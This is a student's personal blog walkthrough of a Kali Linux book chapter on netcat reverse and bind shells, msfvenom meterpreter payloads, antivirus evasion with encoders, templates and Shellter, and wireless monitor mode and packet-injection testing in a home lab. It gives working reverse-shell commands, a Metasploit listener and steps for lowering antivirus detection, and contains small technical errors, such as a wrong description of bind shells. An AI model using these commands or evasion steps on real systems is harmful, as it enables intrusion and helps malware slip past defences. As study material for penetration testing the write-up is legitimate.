 ```yaml
---
title: "Part 5 Understanding Reverse and Binding Shell"
date: 2024-05-22T09:09:02Z
draft: false
categories: ["Walkthrough"]
tags: ["Networking", "Shells"]
series: ["Ultimate-Kali-Linux-Book"]
series_order: 5
---
```


Hey it's me again  , I know you've been missing me and I have to same to you as well. Time has changed in my life for the better, I've met the competitive hacking team at another close by University and would love to learn from them as they're seniors in the field of CTF. I want to be by their side and learn from them to grow as a person and a professional penetration tester.

I've also found a job at a college which has amazing architecture, truly wonderful to look at. I will use the funds to help me with travels for Uni, lunch and future projects that you might see on this blog so stay tuned. (^・ω・^ )

Anyways, enough of a life update lets talk Networking and Shells! I will be exploring **Netcat** to create connections between my Kali machine and a victim Windows machine. Will also be going over **Anti-malware evasion techniques** to reduce Virustotal scores when scanning payloads created using scripts. And finally test out my wireless adapter that I got for cheap for packet injection and Monitor mode compatibility with **Aireplay-ng**. 

This ones a short one guys so I'll give it my best, I know I'm only using scripts and pre-made tools yet and not reversing engineering yet but put a bit of trust in me. I have a small flame inside of me, waiting for small chips of wood to be thrown inside to grow bigger into a roaring flame to not only light up my path in dark times but also for others I care about around me.

## 1. Fundamentals of Bind and Reverse Shells
A **reverse shell** is a one way connection from the victim -> attacker, from there they would be able to perform remote code execution or monitor for the victims behaviour, keystrokes, screen sharing and more.

A **binding shell** uses inbound firewall rules meaning that the connection originates from the victim -> attacker.

### 1.2 Creating a Reverse & Binding Shell with Netcat
There is a Windows version of Netcat on Kali at this directory `/usr/share/windows-binaries` which will be uploaded to the victims computer which when executed will open the shell. 

1. Get the file onto the victims machine, for this example we will be connected on the same network and I will be using a Python server to transfer, `cd` into windows-binaries and execute `python3 -m http.server 8080`
2. On victims machine in a browser: `<kaliIP>:8080`
![Python-server-nc.exe](<Python-server-nc.exe.png>)
3. Click on `nc.exe` as the victim and close Python web server 
4. Execute the following in a terminal on kali `nc -nlvp 1234` on bob's `nc -nv <kaliIP> 1234 -e cmd.exe`
5. To create a bind shell on kali `nc -nlvp 1234 -e /bin/bash` and on bob's `nc -nv <kaliIP> 1234`, this will allow bob to send commands to kali

ik this above isn't what I've talked about as I've lost the gif for Netcat but here is a payload created by MSF using vnc.exe ^^

## 2. Anti-malware Evasion Techniques
Most Anti malware work in 3 main categories:
- **Signature-base detection:** Anti-malware software will use a database of known malicious code and compare it to scans
- **Behavioural-based detection:** This is where the actions taken by malware is monitored by being placed in a Virtual environment for changes in the system 
- **Heuristic-based:** This is where the anti-malware software uses rules and algorithms to determine if malware has been detected

### 2.1 Encoding Payloads with MSFvenom
1. Using the reverse shell from the Netcat shell executable I will be using MSFvenom which allows for custom payload creation via scripts.
```bash
msfvenom -h                # Help menu
msfvenom --list payloads   # Available Payload list
# Create first payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload.exe
```
![msfvenom-payload-1](<msfvenom-payload-1.png>)
2. Putting the `payload.exe` file into https://www.virustotal.com will give out these detection ratings:
![msfvenom-virtustotal-payload-1](<msfvenom-virtustotal-payload-1.png>)
{{< alert icon="triangle-exclamation" cardColor="#fcf0e8" textColor="#eb974c" iconColor="#eb974c" >}}
Virustotal and other mainstream web scanners will distribute the hash of the payload:
{{< /alert >}}
A way to combat my malware being known is by using a no distribution scanner.
3. Using the highest rated encoder and iterating the encoding 9 times:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload2.exe -e x86/shikata_ga_nai -i 9
```
![msfvenom-virtustotal-payload-2](<msfvenom-virtustotal-payload-2.png>)
Doesn't even lower it by much 😭😭

4. Giving it a executable to encode with the template to mask out anti-malware signature detection
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload2.exe -e x86/shikata_ga_nai -i 9 -x /etc/share/windows-binaries/whoami.exe
```

### 2.2 Using Shellter to reduce detection
- Go through the [Wine installation guide](https://wiki.winehq.org/Download) with `wine32` and install Shellter with `sudo apt install shellter`

![Shellter-Encoding-Demo](/images/Shellter-Encoding-Demo.gif)

![Shellter-virustotal-payload-1](<Shellter-virustotal-payload-1.png>)

### 2.3 Using MSF to Send a Reverse Shell Attack
1. Will need to transfer file same method as transferring ncat in part 1.2
2. Will be using metasploitable to listen to the payload 
```bash
$ msfconsole
msf6 > use exploit/multi/handler
msf6 (multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 (multi/handler) > set LHOST <attacker IP>
msf6 (multi/handler) > set AutoRunScript post/windows/manage/migrate
msf6 (multi/handler) > exploit
```

![Reverse-shell-demo](/images/Reverse-shell-demo.gif)
(Right-click > Open Image in New Tab)
## 3. Wireless Adaptor Setup
For the final part of this section I will be testing out my wireless adapter which was bought off Aliexpress a long time ago and just resurfaced for this which I'm happy about. 

![Wireless adapter](Wireless-adapter.jpg)


### 3.1 Different types of Adaptor Modes
There are several modes available for a network adaptor to switch to which all have their separate purposes:
- **Managed mode:** The default type which will allow connections to other AP
- **Monitor mode:** This mode will allow for wireless network scanning and packet injection 
- **Repeater mode:** Echo's a WiFi connection like an extender
- **Master mode:** Allow Linux-based system to operate as APs' 

### 3.2 Changing between Managed and Monitor Mode
There are two main methods to enable monitor and switching back to managed mode: 
- **Manually:** 
```
$ ifconfig wlan0 down
$ iwconfig mode monitor wlan0 
$ ifconfig wlan0 up
```
- **Using airmon-ng:** 
```
$ airmon-ng check kill 
$ airmon-ng start wlan0 
$ airmon-ng stop wlan0
```

### 3.3 Testing for Packet Injection Compatibility
Once in monitor mode I can see if the adaptor has packet injection capabilities with `aireplay-ng -9 wlan0`

![packet-injection-testing](<packet-injection-testing.png>)

Well this pretty much covers everything for the fifth part of ‘The Ultimate Kali Linux Book’ by Glen D. Singh. This was a short one but I learned a bit on the different shell types, using encoders to mask out known exploits by anti-malware software and testing out my wireless adapter for later testing. Glad you had a good read for this one, hope you're doing OK wherever you are. Bye. 
{{<responsive-img src="Cat-with-heart-excited.gif" alt="alt text" width="30px" height="30px">}}
